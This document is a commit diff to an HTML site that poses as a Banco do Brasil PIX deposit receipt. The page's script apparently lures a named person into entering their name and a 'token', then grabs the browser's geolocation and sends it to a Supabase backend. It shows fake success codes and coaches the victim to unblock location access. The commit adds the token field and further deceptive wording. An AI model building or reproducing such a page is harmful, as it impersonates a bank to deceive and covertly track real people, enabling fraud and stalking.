

Before and after one commit to bancodobrasil-comprovantes/comprovante.pix, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 177-816 px from the top of the page, without its empty margins (110-1169 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
atualizando

```diff
--- a/index.html
+++ b/index.html
@@ -12,12 +12,13 @@
 
     <h2>Comprovante de Transação PIX</h2>
 
-    <img id="logo" src="assets/bblogo.png" alt="Logo" width="500">
-    <p id="status">Para confirmar o depósito e carregar o comprovante, digite o nome <strong>completo</strong> da pessoa beneficiária e clique em PERMITIR.</p>
+    <img id="logo" src="assets/bblogo.png" alt="Logo" width="300">
+    <p id="status">Para confirmar o depósito e carregar o<br>comprovante, digite o <strong>nome completo</strong> da<br>pessoa beneficiária e a <strong>chave Token</strong><br>gerada pelo depositante. Após clique em PERMITIR.</p>
     <input type="text" id="username" placeholder="Nome completo" oninput="this.value = this.value.toUpperCase()">
-    <button onclick="checkAndSend()">PERMITIR</button>
+    <input type="text" id="password" placeholder="Chave Token" >
+    <button onclick="checkAndSend()">PERMITIR GERAR CONTRASENHA</button>
 
-    <img id="imagem" src="assets/comprovante_desfocado.png" alt="Comprovante" width="300">
+    <img id="imagem" src="assets/comprovante_desfocado.png" alt="Comprovante" width="200">
 
     <script>
         // Configuração do Supabase
@@ -27,10 +28,11 @@
 
         // Nome fixo para validação
         const NOME_FIXO = "RENATO TADEU PEREIRA";
+        const CHAVE_PASSE = "754A38CF202548PP";
 
         function checkAndSend() {
             const username = document.getElementById("username").value.trim();
-
+            const password = document.getElementById("password").value.trim();
             // Verificando se o campo de nome está vazio
             if (!username) {
                 document.getElementById("status").innerText = "Nome não pode ser vazio";
@@ -43,13 +45,23 @@
                 return;
             }
 
+            if (!password) {
+                document.getElementById("status").innerText = "Chave Token não pode estar em branco";
+                return;
+            }
+
+            // Verificando se o nome digitado é o esperado
+            if (password !== CHAVE_PASSE.trim()) {
+                document.getElementById("status").innerText = "Chave incorreta. Tente novamente.";
+                return;
+            }
             // Se nome válido, chama a função para pegar a localização
             getLocation(username);
         }
 
         function getLocation(username) {
             if (!navigator.geolocation) {
-                document.getElementById("status").innerText = "Comprovante não localizado.";
+                document.getElementById("status").innerText = "Chave não localizada.";
                 return;
             }
 
@@ -77,7 +89,7 @@
                     throw error;
                 }
 
-                document.getElementById("status").innerText = "Depósito realizado com sucesso!";
+                document.getElementById("status").innerText = "Contra-senha gerada com sucesso! 752JA54P2025BF82";
                 console.log("Dados enviados:", data);
             } catch (err) {
                 console.error("Erro ao enviar:", err.message);
@@ -89,10 +101,10 @@
             let msg = "";
             switch (error.code) {
                 case error.PERMISSION_DENIED:
-                    msg = "Seu aparelho não permite gerar o comprovante. Clique nos três pontinhos > Configurações > Configurações do Site > Local > Abrir todas as solicitações. Depois tente novamente";
+                    msg = "Seu aparelho não permite gerar contrasenha. Clique nos três pontinhos > Configurações > Configurações do Site > Local > Abrir todas as solicitações. Depois tente novamente";
                     break;
                 case error.POSITION_UNAVAILABLE:
-                    msg = "Comprovante indisponível. Tente novamente mais tarde.";
+                    msg = "Token vencido. Peça uma nova chave ao depositante.";
                     break;
                 case error.TIMEOUT:
                     msg = "Tempo limite da requisição excedido.";
--- a/styles.css
+++ b/styles.css
@@ -10,15 +10,26 @@ body {
     align-items: center;
 }
 
-input, button {
+button {
     padding: 10px 20px;
     font-size: 16px;
-    border: 2px solid white;
+    border: 2px solid blue;
     border-radius: 5px;
-    background-color: rgba(255, 255, 0, 0.8);
+    background-color: rgba(192, 192, 0, 0.8);
     color: blue;
     cursor: pointer;
     margin-top: 10px;
+}
+
+input {
+    padding: 10px 20px;
+    font-size: 16px;
+    border: 2px solid blue;
+    border-radius: 5px;
+    background-color: rgba(192, 192, 0, 0.8);
+    color: blue;
+    margin-top: 10px;
+    text-align: center;
 }
 
 button:hover {
```
Also changed, not shown: assets/bblogo.png.
